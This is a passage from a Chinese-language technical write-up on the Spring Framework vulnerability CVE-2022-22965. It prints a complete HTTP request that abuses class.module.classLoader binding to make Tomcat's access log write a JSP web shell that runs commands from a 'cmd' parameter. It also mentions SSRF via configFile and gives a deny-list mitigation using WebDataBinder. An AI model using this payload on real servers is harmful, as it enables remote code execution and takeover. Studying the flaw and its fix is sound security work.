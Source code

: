 ![](images/2022-04-27-20-48-21.png)

或者利用请求头来传递pattern的值：

```
GET /CVE_2022_22965_war/spring/get-user-info?password=password&user.name=enokiy&user.age=100&names[0]=aaaaaa&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_3&class.module.classLoader.resources.context.parent.pipeline.first.checkExists=true&class.module.classLoader.resources.context.parent.pipeline.first.rotatable=true&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.buffered=false&class.module.classLoader.resources.context.parent.pipeline.first.directory=/XXXX/webapps/CVE_2022_22965_war/&class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7BCVE-Test-Poc%7Di HTTP/1.1
Host: 127.0.0.1:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
CVE-Test-Poc:<% java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a=-1;byte[] b=new byte[2048];out.print("<pre>");while(a=in.read(b)!=-1){out.println(new String(b));} out.print("</pre>"); %>
```

也可以利用class.module.classLoader.resources.context.configFile进行SSRF。

其他可利用的属性需要进一步查看各属性的作用。

**需要注意的点是，修改上面的属性可能导致服务重启，因此如果是自己测试无所谓，但是千万不要在现网环境中直接利用这些poc，除非你很清楚并且能承担得起利用导致的后果！！**

### 漏洞修复&规避

新版本的修复方式中，主要有两个点来阻止变量覆盖：
1. 通过全局设置来禁用对特定字段的disallowFields绑定WebDataBinder：
```java 
@ControllerAdvice
@Order(Ordered.LOWEST_PRECEDENCE)
public class BinderControllerAdvice {
    @InitBinder
    public void setAllowedFields(WebDataBinder dataBinder) {
         String[] denylist = new String[]{"class.*", "Class.*", "*.class.*", "*.Class.*"};
         dataBinder.setDisallowedFields(denylist);
    }
}
```
但是这种黑名单的方式可能存在被绕过的可能;临时使用ok,但不是长久之计;
